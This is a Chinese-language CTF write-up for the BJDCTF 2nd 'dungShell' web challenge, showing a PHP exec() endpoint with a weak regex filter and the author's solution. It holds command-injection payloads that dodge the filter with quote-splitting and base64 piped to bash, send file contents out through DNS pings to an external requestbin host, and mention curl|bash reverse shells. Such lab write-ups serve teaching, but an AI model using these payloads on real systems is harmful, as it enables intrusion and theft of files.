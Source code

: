 ```yaml
---
layout: post
title: BJDCTF 2nd Web Writeup
data: 2020-03-23
categories: Writeups
tags: 
 - CTF
 - Writeup
description:  
excerpt_separator: <!-- more -->
---
```


上周末BJD第二场，又是一届新生赛，尽管如此还是暴露出了很多问题。这段时间就先把这次总结出来的问题解决一下。

<!-- more -->

# dungShell

## 题目描述

提示写到脸上了，有.swp文件。

## 解题思路

源码删减：

{% highlight php linenos %}
<?php
error_reporting(0);
echo "how can i give you source code? .swp?!"."<br>";
if (!isset($_POST['girl_friend'])) {
    die("where is P3rh4ps's girl friend ???");
} else {
    $girl = $_POST['girl_friend'];
    if (preg_match('/\>|\\\/', $girl)) {
        die('just girl');
    } else if (preg_match('/ls|phpinfo|cat|\%|\^|\~|base64|xxd|echo|\$/i', $girl)) {
        echo "<img src='img/p3_need_beautiful_gf.png'> <!-- He is p3 -->";
    } else {
        //duangShell~~~~
        exec($girl);
    }
}
{% highlight %}

拦截形同虚设，可以用"php -r"执行PHP代码。不过没有回显，需要将结果打到DNS上。

扫根目录：


```
POST：girl_friend=php -r "system('ping '.substr(implode('.',scandir('/')),6,50).'.295af172a8d3ec4abf30.d.dns.requestbin.buuoj.cn');"
```

读/flag：

```
POST：girl_friend=php -r "system('ping '.substr(system('bas""e64 /flag'),0,50).'.295af172a8d3ec4abf30.d.dns.requestbin.buuoj.cn');"
```

分两次读，解码后：

```
flag{flag-is-not-here,please-find-it-by-yourself}
```

不太对劲，要找真正的flag，在.bash_history里面看到了信息，然后再读：

```
POST：girl_friend=php -r "system('ping '.substr(system('bas""e64 /etc/demo/P3rh4ps/love/flag'),0,50).'.46418d29ca743ab417af.d.dns.requestbin.buuoj.cn');"
```

## 备注

1. 后来看题解，发现我好像非预期了，.bash_history是个意外，预期思路应该是用nc命令或者curl xxxx\|bash弹Shell，然后find一下flag。

2. 因为find命令会返回不止一行，而我的方法是利用了system()的返回，所以不太好用。当然也不是不可以，可以先将find的返回保存到变量foo中，然后echo一下\${foo}。至于"$"符号的绕过，可以先将命令base64编码，传到服务器再解码，然后重定向到bash里，Payload大概长这样：

    ```
    POST：girl_friend=php -r "system('ping '.substr(system('ec""ho YT0kKGZpbmQgLyAtbmFtZSBmbGFnKTtlY2hvICR7YToxMDoxNX18YmFzZTY0Cg==|ba""se64 -d|bash'),0,50).'.f9a0ea65a00ba5753d08.d.dns.requestbin.buuoj.cn');"
    
    YT0kKGZpbmQgLyAtbmFtZSBmbGFnKTtlY2hvICR7YToxMDoxNX18YmFzZTY0Cg== => a=$(find / -name flag);echo ${a:10:15}|base64
    ```

3. 不得不说，上面这个方法太蛋疼了，得整一个VPS工具。
